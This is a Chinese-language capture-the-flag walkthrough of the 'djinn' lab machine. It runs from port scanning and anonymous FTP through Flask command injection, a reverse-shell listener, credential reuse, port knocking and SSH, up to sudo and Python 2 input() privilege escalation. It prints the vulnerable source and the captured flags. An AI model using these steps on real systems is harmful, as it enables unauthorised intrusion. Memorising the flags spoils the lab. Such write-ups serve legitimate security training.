

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 00:23 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0017s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000067s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.050s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.082s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00014s latency).
MAC Address: 08:00:27:64:08:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 3.47 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 00:24 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00079s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   filtered ssh
1337/tcp open     waste
7331/tcp open     swx
MAC Address: 08:00:27:64:08:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p21,22,1337,7331 192.168.21.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 00:24 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00032s latency).

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     vsftpd 3.0.3
22/tcp   closed ssh
1337/tcp open   waste?
7331/tcp open   http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.95%I=7%D=4/14%Time=67FC8E0C%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\
SF:x20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20
SF:__\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\
SF:x20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x
SF:20`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\
SF:x20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\
SF:x20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:n\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths
SF:\nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20
SF:you\x20your\x20gift\.\n\(9,\x20'\+',\x208\)\n>\x20")%r(RPCCheck,1BC,"\x
SF:20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20_\
SF:x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20___\
SF:x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20_\
SF:x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x
SF:20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\x2
SF:0\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|\\
SF:___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's\x
SF:20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer\x
SF:20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20you
SF:r\x20gift\.\n\(2,\x20'-',\x209\)\n>\x20");
MAC Address: 08:00:27:64:08:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=4/14%OT=21%CT=22%CU=41636%PV=Y%DS=1%DC=D%G=Y%M=080027%
OS:TM=67FC8E6A%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%II=I%TS=
OS:A)SEQ(SP=105%GCD=1%ISR=10E%TI=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%
OS:II=I%TS=A)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=FD%GCD=1%ISR=10
OS:6%TI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5
OS:B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120
OS:%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=N)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.30 seconds
```

# 漏洞利用

21端口可以匿名登录

```markup
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.21.7                                 
Connected to 192.168.21.7.
220 (vsFTPd 3.0.3)
Name (192.168.21.7:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||20854|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 21  2019 .
drwxr-xr-x    2 0        115          4096 Oct 21  2019 ..
-rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
-rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
226 Directory send OK.
```

把文件都下载下来

```markup
ftp> get creds.txt
local: creds.txt remote: creds.txt
229 Entering Extended Passive Mode (|||43722|)
150 Opening BINARY mode data connection for creds.txt (11 bytes).
100% |*******************|    11       10.13 KiB/s    00:00 ETA
226 Transfer complete.
11 bytes received in 00:00 (5.13 KiB/s)
ftp> get game.txt
local: game.txt remote: game.txt
229 Entering Extended Passive Mode (|||27345|)
150 Opening BINARY mode data connection for game.txt (128 bytes).
100% |*******************|   128      423.72 KiB/s    00:00 ETA
226 Transfer complete.
128 bytes received in 00:00 (185.45 KiB/s)
ftp> get message.txt
local: message.txt remote: message.txt
229 Entering Extended Passive Mode (|||42264|)
150 Opening BINARY mode data connection for message.txt (113 bytes).
100% |*******************|   113      139.86 KiB/s    00:00 ETA
226 Transfer complete.
113 bytes received in 00:00 (86.00 KiB/s)
```


看一下1337端口

```markup
┌──(kali㉿kali)-[~]
└─$ nc 192.168.21.7 1337                             
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(2, '+', 4)
> 
```

看一下7331端口，尝试写脚本，没出来，等下再看看

```markup
┌──(kali㉿kali)-[~]
└─$ nc 192.168.21.7 7331                            
?
<head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>
<p>Error code 400.
<p>Message: Bad request syntax ('?').
<p>Error code explanation: 400 = Bad request syntax or unsupported method.
</body>
```

运行的http服务

```markup
┌──(kali㉿kali)-[~]
└─$ curl -i http://192.168.21.7:7331
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2266
Server: Werkzeug/0.16.0 Python/2.7.15+
Date: Mon, 14 Apr 2025 04:38:38 GMT

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <title>Lost in space</title>

    <!-- Bootstrap core CSS -->
    <!-- <link href="../../dist/css/bootstrap.min.css" rel="stylesheet"> -->

    <!-- Custom styles for this template -->
    <link href="../static/css/cover.css" rel="stylesheet">
  </head>

  <body>

    <div class="site-wrapper">

      <div class="site-wrapper-inner">

        <div class="cover-container">

          <div class="masthead clearfix">
            <div class="inner">
              <h3 class="masthead-brand">mzfr</h3>
              <nav class="nav nav-masthead">
                <a class="nav-link" href="#">Home</a>
                <a class="nav-link" href="#">Features</a>
                <a class="nav-link" href="#">Contact</a>
              </nav>
            </div>
          </div>

          <div class="inner cover">
            <h1 class="cover-heading">Let's see how good your are.</h1>
            </div>

          <div class="mastfoot">
            <div class="inner">
              <p>Cover template for <a href="https://getbootstrap.com">Bootstrap</a>, by <a href="https://twitter.com/mdo">@mdo</a>.</p>
            </div>
          </div>

        </div>

      </div>

    </div>

    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://code.jquery.com/jquery-3.1.1.slim.min.js" integrity="sha384-A7FZj7v+d/sdmMqp/nOQwliLvUsJfDHW+k9Omg/a/EheAdgtzNs3hpfag6Ed950n" crossorigin="anonymous"></script>
    <!-- <script>window.jQuery || document.write('<script src="../../assets/js/vendor/jquery.min.js"><\/script>')</script> -->
    <script src="https://cdnjs.cloudflare.com/ajax/libs/tether/1.4.0/js/tether.min.js" integrity="sha384-DztdAPBWPRXSA/3eYEEUWrWCy7G5KFbe8fFjk5JAIxUYHKkDx6Qin1DkWx51bBrb" crossorigin="anonymous"></script>
    <!-- <script src="../../dist/js/bootstrap.min.js"></script> -->
    <!-- IE10 viewport hack for Surface/desktop Windows 8 bug -->
    <!-- <script src="../../assets/js/ie10-viewport-bug-workaround.js"></script> -->
  </body>
</html>
```

目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.7:7331 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7:7331
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,jpg,png,zip,git,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wish                 (Status: 200) [Size: 385]
/genie                (Status: 200) [Size: 1676]
```

/wish



输入id，跳转到了别的页面，但是url有返回，说明存在命令执行


提交反弹shell失败了，绕过一下


```markup
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.10] from (UNKNOWN) [192.168.21.7] 40580
bash: cannot set terminal process group (618): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ 
```

# 提权

看一下都有什么

```markup
www-data@djinn:/opt/80$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
www-data@djinn:/opt/80$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/genie
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
www-data@djinn:/opt/80$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
www-data@djinn:/opt/80$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
www-data@djinn:/opt/80$ ls -la
ls -la
total 24
drwxr-xr-x 4 www-data www-data 4096 Nov 17  2019 .
drwxr-xr-x 4 root     root     4096 Nov 14  2019 ..
-rw-r--r-- 1 www-data www-data 1323 Nov 13  2019 app.py
-rw-r--r-- 1 www-data www-data 1846 Nov 14  2019 app.pyc
drwxr-xr-x 5 www-data www-data 4096 Nov 13  2019 static
drwxr-xr-x 2 www-data www-data 4096 Nov 14  2019 templates
www-data@djinn:/opt/80$ cat app.py        
cat app.py
import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route("/wish", methods=['POST', "GET"])
def wish():
    execute = request.form.get("cmd")
    if execute:
        if validate(execute):
            output = subprocess.Popen(execute, shell=True,
                                      stdout=subprocess.PIPE).stdout.read()
        else:
            output = "Wrong choice of words"

        return redirect(url_for("genie", name=output))
    else:
        return render_template('wish.html')


@app.route('/genie', methods=['GET', 'POST'])
def genie():
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = "It's not that hard"

    return render_template('genie.html', file=page)


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)
```

看一下/home/nitish/.dev/creds.txt

```markup
www-data@djinn:/opt/80$ cat /home/nitish/.dev/creds.txt
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

22端口没有开，想到了刚才的1337端口

```markup
import socket
import re

def compute(a, op, b):
    if op == '+':
        return a + b
    elif op == '-':
        return a - b
    elif op == '*':
        return a * b
    elif op == '/':
        return round(a / b, 4)
    return 0

def main():
    host = '192.168.21.7'
    port = 1337
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.settimeout(5)  # 设置全局超时

    buffer = ""
    count = 0

    try:
        while True:
            # 接收数据
            try:
                data = s.recv(1024).decode()
                if not data:  # 连接关闭
                    break
                buffer += data
                print(f"[接收] ({len(data)} bytes) ➜ {data.strip()}")
            except socket.timeout:
                print("[!] 接收超时，可能无更多数据")
                break

            # 持续处理缓冲区中的题目
            processed = 0
            while True:
                match = re.search(r'\((\d+),\s*[\'"]([+\-*/])[\'"],\s*(\d+)\)', buffer)
                if not match:
                    break

                # 提取并计算
                a = int(match.group(1))
                op = match.group(2)
                b = int(match.group(3))
                answer = compute(a, op, b)

                # 更新缓冲区（移除已处理部分）
                buffer = buffer[match.end():]

                # 发送答案
                response = str(answer) + '\n'
                s.sendall(response.encode())
                count += 1
                print(f"[第 {count} 题] ➜ {a} {op} {b} = {answer}")
                processed += 1

            # 如果没有处理过题目且缓冲区有内容，保留未匹配数据
            if processed == 0 and len(buffer) > 512:  # 防止缓冲区膨胀
                print("[!] 缓冲区残留未匹配数据:", buffer[:128] + "...")
                buffer = buffer[-256:]  # 保留尾部256字符防止内存问题

    except Exception as e:
        print(f"[!] 主循环异常: {str(e)}")

    # 输出最终结果
    print("\n🔚 连接关闭，最终缓冲区内容:")
    print(buffer.strip())
    s.close()

if __name__ == '__main__':
    main()


🔚 连接关闭，最终缓冲区内容:
> Here is your gift, I hope you know what to do with it:

1356, 6784, 3409
```

应该是要敲门

```markup
┌──(kali㉿kali)-[~]
└─$ knock 192.168.21.7 1356 6784 3409
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -p22 192.168.21.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:34 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00030s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:64:08:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```

nitish

```markup
┌──(kali㉿kali)-[~]
└─$ ssh nitish@192.168.21.7
The authenticity of host '192.168.21.7 (192.168.21.7)' can't be established.
ED25519 key fingerprint is SHA256:hDngTQnjVXoBeWuPEH3si0MbCre9a/g2G4N6/pRZLFk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.7' (ED25519) to the list of known hosts.
nitish@192.168.21.7's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 14 12:05:17 IST 2025

  System load:  0.0               Processes:           95
  Usage of /:   43.7% of 9.78GB   Users logged in:     0
  Memory usage: 27%               IP address for eth0: 192.168.21.7
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

329 packages can be updated.
266 updates are security updates.


Last login: Thu Nov 14 20:32:20 2019 from 192.168.1.107
nitish@djinn:~$
```

看一下都有什么

```markup
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
nitish@djinn:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/genie
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
nitish@djinn:~$ /usr/sbin/getcap -r / 2>/dev/null
nitish@djinn:~$ which getcap
/sbin/getcap
nitish@djinn:~$ /sbin/getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
nitish@djinn:~$ ls -la
total 36
drwxr-xr-x 6 nitish nitish 4096 Apr 23  2022 .
drwxr-xr-x 4 root   root   4096 Nov 14  2019 ..
-rw------- 1 root   root    414 Apr 23  2022 .bash_history
-rw-r--r-- 1 nitish nitish 3771 Nov 11  2019 .bashrc
drwx------ 2 nitish nitish 4096 Nov 11  2019 .cache
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .dev
drwx------ 3 nitish nitish 4096 Nov 11  2019 .gnupg
drwxrwxr-x 3 nitish nitish 4096 Apr 23  2022 .local
-rw-r----- 1 nitish nitish   38 Apr 23  2022 user.txt
```

user.txt

```markup
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```


提权

```markup
nitish@djinn:~$ sudo -u sam /usr/bin/genie -c '/bin/sh'
Pass your wish to GOD, he might be able to help you.
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd id
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

寻找可以利用的

```markup
$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/genie
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
$ /usr/sbin/getcap -r / 2>/dev/null
$ which getcap
/sbin/getcap
$ /sbin/getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
```

提权

```markup
$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:^CTraceback (most recent call last):
  File "/root/lago", line 161, in <module>
    main(options())
  File "/root/lago", line 111, in options
    choice = input("Enter your choice:")
KeyboardInterrupt
$ cd /home/sam
$ ls -la
total 36
drwxr-x--- 4 sam  sam  4096 Nov 14  2019 .
drwxr-xr-x 4 root root 4096 Nov 14  2019 ..
-rw------- 1 root root  417 Nov 14  2019 .bash_history
-rw-r--r-- 1 root root  220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 sam  sam  3771 Oct 20  2019 .bashrc
drwx------ 2 sam  sam  4096 Nov 11  2019 .cache
drwx------ 3 sam  sam  4096 Oct 20  2019 .gnupg
-rw-r--r-- 1 sam  sam   807 Oct 20  2019 .profile
-rw-r--r-- 1 sam  sam  1749 Nov  7  2019 .pyc
-rw-r--r-- 1 sam  sam     0 Nov  7  2019 .sudo_as_admin_successful
$ cat .pyc
�
��]c@s}ddlmZddlmZddlmZd�Zd�Zd�d�Z       �Z
e
 d      krye
e       ��nd
S(
  i����(tgetuser(tsystem(trandintcCs    dGHdS(NsWorking on it!! ((((s/home/mzfr/scripts/exp.pyt
naughtyboscCsBtdd�}dGHtd�}||kr9td�ndGHdS(Niies"Choose a number between 1 to 100: sEnter your number: s/bin/shsBetter Luck next tsme(RtinputR(tnumts((s/home/mzfr/scripts/exp.pytguessit


cCs(t�}td�}d||fGHdS(Ns$Enter the full of the file to read: s!User %s is not allowed to read %s(RR(tusertpath((s/home/mzfr/scripts/exp.pyt       readfiless
                                cCs/dGHdGHdGHdGHdGHttd��}|S(Ns▒What do you want to do ?s1 - Be naughtys2 - Guess the numbers▒3 - Read some damn files4 - WorksEnter your choice: (tintR(tchoice((s/home/mzfr/scripts/exp.pytoptionsscCs_|dkrt�nE|dkr,t�n/|dkrBt�n|dkrVdGHndGHdS(Niiiiswork your ass off!!s"Do something better with your life(RRR
(top((s/home/mzfr/scripts/exp.pytmain's


__main__N(
          tgetpassRtosRtrandomRRRR
R__name__(((s/home/mzfr/scripts/exp.py<module>s
```

反编译以后，看到会判断s=num


```markup
$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```
